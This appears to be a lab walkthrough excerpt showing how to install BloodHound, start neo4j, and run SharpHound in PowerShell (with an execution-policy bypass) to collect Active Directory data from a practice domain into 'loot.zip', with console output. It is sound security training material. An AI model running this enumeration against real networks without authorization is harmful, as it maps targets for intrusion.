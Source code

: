 Install bloodhound and run neo4j

```sh
apt-get install bloodhound
neo4j console
```

??? output "neo4j console"
    ```txt
    Directories in use:
    home:         /usr/share/neo4j
    config:       /usr/share/neo4j/conf
    logs:         /usr/share/neo4j/logs
    plugins:      /usr/share/neo4j/plugins
    import:       /usr/share/neo4j/import
    data:         /usr/share/neo4j/data
    certificates: /usr/share/neo4j/certificates
    run:          /usr/share/neo4j/run
    Starting Neo4j.
    WARNING: Max 1024 open files allowed, minimum of 40000 recommended. See the Neo4j manual.
    2021-09-16 19:47:14.222+0000 INFO  Starting...
    2021-09-16 19:47:17.369+0000 INFO  ======== Neo4j 4.2.1 ========
    2021-09-16 19:47:19.944+0000 INFO  Initializing system graph model for component 'security-users' with version -1 and status UNINITIALIZED
    2021-09-16 19:47:19.964+0000 INFO  Setting up initial user from defaults: neo4j
    2021-09-16 19:47:19.964+0000 INFO  Creating new user 'neo4j' (passwordChangeRequired=true, suspended=false)
    2021-09-16 19:47:19.983+0000 INFO  Setting version for 'security-users' to 2
    2021-09-16 19:47:19.989+0000 INFO  After initialization of system graph model component 'security-users' have version 2 and status CURRENT
    2021-09-16 19:47:19.996+0000 INFO  Performing postInitialization step for component 'security-users' with version 2 and status CURRENT
    2021-09-16 19:47:20.462+0000 INFO  Bolt enabled on localhost:7687.
    2021-09-16 19:47:21.918+0000 INFO  Remote interface available at http://localhost:7474/
    2021-09-16 19:47:21.918+0000 INFO  Started.
    ```

Getting loot with SharpHound

```ps1
powershell -ep bypass
. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

??? output "loot.zip"
    ```txt
    Directory: C:\Users\Administrator

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-r---        5/13/2020   8:01 PM                3D Objects
    d-r---        5/13/2020   8:01 PM                Contacts
    d-r---        5/13/2020   8:01 PM                Desktop
    d-r---        5/14/2020   8:27 PM                Documents
    d-r---        10/3/2020   8:33 AM                Downloads
    d-r---        5/13/2020   8:01 PM                Favorites
    d-r---        5/13/2020   8:01 PM                Links
    d-r---        5/13/2020   8:01 PM                Music
    d-r---        5/13/2020   8:01 PM                Pictures
    d-r---        5/13/2020   8:01 PM                Saved Games
    d-r---        5/13/2020   8:01 PM                Searches
    d-r---        5/13/2020   8:01 PM                Videos
    -a----        9/16/2021  12:58 PM           9496 20210916125838_loot.zip
    -a----        9/16/2021  12:58 PM          11709 YmM2MWQ1NzYtYWFhYS00MjM1LThjYmQtYTE4ZDM4ZGFiNTFl.bin
    ```